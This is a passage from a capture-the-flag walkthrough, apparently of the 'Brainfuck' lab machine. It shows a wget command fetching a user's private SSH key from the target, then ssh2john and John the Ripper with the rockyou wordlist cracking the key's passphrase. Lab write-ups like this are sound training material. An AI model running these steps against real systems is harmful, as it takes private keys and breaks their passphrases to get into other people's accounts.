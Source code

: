 YAY, now we have de id_rsa
wget  https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa --no-check-certificate  
![alt text](./img/brainfuck35.PNG?raw=true)  
  
![alt text](./img/brainfuck36.PNG?raw=true)  
  
…...it’s encrypted too. Ok, so we need to break this
/usr/share/john/ssh2john.py id_rsa > hash.txt  
![alt text](./img/brainfuck37.PNG?raw=true)  

john hash.txt --wordlist=~/wordlists/rockyou.txt  
![alt text](./img/brainfuck38.PNG?raw=true)  
